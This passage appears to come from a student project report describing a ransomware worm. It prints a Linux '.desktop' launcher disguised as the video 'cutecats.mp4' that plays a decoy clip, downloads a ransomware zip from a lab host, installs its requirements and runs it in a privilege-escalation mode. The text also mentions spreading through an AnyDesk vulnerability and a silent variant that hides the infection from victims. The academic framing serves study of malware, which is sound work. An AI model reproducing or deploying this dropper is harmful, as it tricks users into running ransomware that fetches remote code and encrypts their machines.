 In the case of the first script concerning \textit{"cutecats.mp4"}, the victim expects a video to play and thus we play it. For the infection of other machines in the network originating from the initial point, we used the vulnerability in the remote software AnyDesk, which will be discussed in more detail later in section \textbf{\ref{sec:network_propagation}}. In this case, we use a “silent script” since we don't want the victims to know they have been infected and they, of course, do not expect a video to play. The silent script that is sent to the victims infected through network propagation performs exactly the same steps, but without downloading and playing the video.

The silent bash script will check if the machine is already infected by searching for a \textit{GR0up7.pem} file that our \textit{main.py} script creates at the beginning of its execution. This way, if the machine is already infected, it will break and not try to infect again. If this feature was not implemented, machines would repeatedly infect each other through network propagation.

\begin{codesnippet}[H]
    \caption{Bash cutecats.desktop}
    \label{code:cutecats}
\end{codesnippet}
\vspace{-0.75cm}
\begin{lstlisting}
    #!/usr/bin/env xdg-open

    [Desktop Entry]
    Encoding=UTF-8
    Name=cutecats.mp4
    Exec=mkdir ransom-worm; cd ransom-worm; /usr/bin/wget -O cutecats.mp4 '10.0.2.15:8000/send_video'; /usr/bin/xdg-open cutecats.mp4; /usr/bin/wget -O ransom-worm.zip '10.0.2.15:8000/send_ransomworm'; /usr/bin/unzip ransom-worm.zip; python3 -m pip install -r requirements.txt; python3 main.py -m privesc;
    Terminal=false
    Type=Application
    Icon=video-x-generic
\end{lstlisting}